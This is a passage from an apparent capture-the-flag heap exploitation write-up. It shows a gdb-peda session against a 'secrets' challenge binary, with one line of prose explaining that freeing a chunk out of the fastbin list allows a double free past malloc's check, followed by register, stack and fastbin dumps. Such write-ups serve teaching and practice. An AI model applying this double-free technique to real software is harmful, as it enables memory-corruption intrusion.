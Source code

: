 So we can see here, that the small secret chunk has been removed from the fastbin list. This means that we can execute the double free now, without failing the check in `malloc()` and causing the code to crash:
```
gdb-peda$ c
Continuing.
2
Which Secret do you want to wipe?
1. Small secret
2. Big secret
1
1. Keep secret
2. Wipe secret
3. Renew secret
^C
Program received signal SIGINT, Interrupt.

[----------------------------------registers-----------------------------------]
RAX: 0xfffffffffffffe00 
RBX: 0x0 
RCX: 0x7ffff7b08890 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
RDX: 0x4 
RSI: 0x7fffffffdec0 --> 0x7fff00000000 
RDI: 0x0 
RBP: 0x7fffffffded0 --> 0x400e60 (push   r15)
RSP: 0x7fffffffdea8 --> 0x400e14 (lea    rax,[rbp-0x10])
RIP: 0x7ffff7b08890 (<__read_nocancel+7>:	cmp    rax,0xfffffffffffff001)
R8 : 0x7ffff7fd1700 (0x00007ffff7fd1700)
R9 : 0x0 
R10: 0x7ffff7b84f60 --> 0x100000000 
R11: 0x246 
R12: 0x400850 (xor    ebp,ebp)
R13: 0x7fffffffdfb0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x7ffff7b08887 <read+7>:	jne    0x7ffff7b08899 <read+25>
   0x7ffff7b08889 <__read_nocancel>:	mov    eax,0x0
   0x7ffff7b0888e <__read_nocancel+5>:	syscall 
=> 0x7ffff7b08890 <__read_nocancel+7>:	cmp    rax,0xfffffffffffff001
   0x7ffff7b08896 <__read_nocancel+13>:	jae    0x7ffff7b088c9 <read+73>
   0x7ffff7b08898 <__read_nocancel+15>:	ret    
   0x7ffff7b08899 <read+25>:	sub    rsp,0x8
   0x7ffff7b0889d <read+29>:	call   0x7ffff7b26d70 <__libc_enable_asynccancel>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdea8 --> 0x400e14 (lea    rax,[rbp-0x10])
0008| 0x7fffffffdeb0 --> 0x97300400e60 
0016| 0x7fffffffdeb8 --> 0x200000003 
0024| 0x7fffffffdec0 --> 0x7fff00000000 
0032| 0x7fffffffdec8 --> 0x81a8d4c7753aa200 
0040| 0x7fffffffded0 --> 0x400e60 (push   r15)
0048| 0x7fffffffded8 --> 0x7ffff7a303f1 (<__libc_start_main+241>:	mov    edi,eax)
0056| 0x7fffffffdee0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGINT
0x00007ffff7b08890 in __read_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	in ../sysdeps/unix/syscall-template.S
gdb-peda$ p main_arena.fastbinsY
$17 = {0x0, 0x603980, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0, 0x0}
gdb-peda$ x/16g 0x603980
0x603980:	0x0000000000000000	0x0000000000000031
0x603990:	0x0000000000000000	0x00007ffff7dd1b78
```